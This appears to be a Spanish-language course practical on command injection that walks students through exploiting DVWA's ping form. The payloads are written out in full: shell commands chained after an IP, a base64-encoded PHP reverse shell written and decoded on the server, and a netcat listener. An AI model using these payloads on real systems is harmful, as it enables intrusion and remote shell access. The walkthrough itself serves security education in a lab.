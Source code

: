 ```yaml
---
typora-copy-images-to: ../assets/img/fileupload
typora-root-url: ../../
layout: post
categories: Command Injection
title: Command Injection
conToc: false
author: Víctor Ponz
conToc: true
titlepage: true
titlepage-background: assets/img/riesgos.png
page-background:  assets/img/fondo-pagina.png
urlcolor: CornflowerBlue
linkcolor: black
toc-own-page: true
toc-title: Contenidos
header-left: UD 4. Command Injection
header-right: Ciberseguridad
footer-left: IES El Caminàs
footer-right: \thepage/\pageref{LastPage}
titlepage-rule-color: 1e2c37
header-includes: |
    \usepackage{lastpage} 
    \usepackage{awesomebox}
pandoc-latex-environment:
    noteblock: [note]
    tipblock: [tip]
    warningblock: [warning]
    cautionblock: [caution]
    importantblock: [important]
---
```


## Práctica - Command injection

> La inyección de comandos es un ataque en el que el objetivo es la ejecución de comandos arbitrarios en el sistema operativo host a través de una aplicación vulnerable. Los ataques de inyección de comandos son posibles cuando una aplicación pasa datos no seguros proporcionados por el usuario (formularios, cookies, encabezados HTTP, etc.) a un shell del sistema. En este ataque, los comandos del sistema operativo proporcionados por el atacante generalmente se ejecutan con los privilegios de la aplicación vulnerable. Los ataques de inyección de comandos son posibles en gran parte debido a una validación de entrada insuficiente.

En la **siguiente práctica** vamos a realizar un *reverse shell* mediante la inyección  de comandos desde un campo de texto de un formulario que no realiza una validación de entrada correcta.

Este es una variante del ataque **FileUpload** ya que persigue almacenar un fichero ejecutable con dicho reverse shell.

La máquina DVWA tiene un fallo de seguridad en la página [Command Injection](http://localhost:8080/vulnerabilities/exec/).

![Command Injection](/Ciberseguridad-PePS/assets/img/fileupload/image-20210504191910879.png)

En este formulario se supone que el usuario puede poner una IP a la que hacerle ping. Para descubrir si es vulnerable a Command injection podemos introducir el siguiente comando:

```
127.0.0.1 ; ls
```

Lo que intentamos es que el servidor ejecute también el comando `ls` ya que suponemos que esta es la instrucción que realiza el `ping`

```php
 $cmd = shell_exec( 'ping  -c 4 ' . $target ); 
```

y no comprueba si `$target` es una IP Válida.

**Los pasos son los siguientes:**

## Paso 1
Descarga el archivo del *reverse shell* desde esta [dirección](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) y guárdalo como `shell.php`

## Paso 2 
Edítalo y cambia la IP por la de tu equipo

![Reverse shell](/Ciberseguridad-PePS/assets/img/fileupload/image-20210504175459944.png)


## Paso 3
Ahora vamos a codificarlo en [base 64](https://www.base64encode.org/.)  

   > **Nota**. Para que ocupe menos espacio es recomendable eliminar los comentarios 

## Paso 4
Nos aprovecharnos de la vulnerabilidad para crear un archivo en el servidor mediante la siguiente entrada en el formulario:

   ```
   127.0.0.1 ; echo "pega-aquí-el-código-en-base64" > shell.txt
   ```

   Con este comando estamos creando el archivo `shell.txt` con el código en base64.

## Paso 5
Decodificamos el código mediante la siguiente entrada

   ```
   127.0.0.1 ; cat shell.txt | base64 -d > shell.php
   ```

## Paso 6
Ya sólo nos queda ejecutar en el ordenador del atacante el comando `netcat`

    nc -v -n -l -p 1234

## Paso 7
Y quedarnos a la espera de una conexión entrante desde el ordenador de la víctima al visitar la url [localhost:8080/vulnerabilities/exec/shell.php](localhost:8080/vulnerabilities/exec/shell.php) del punto 5.

 ![Remote shell](/Ciberseguridad-PePS/assets/img/fileupload/image-20210504193946369.png)

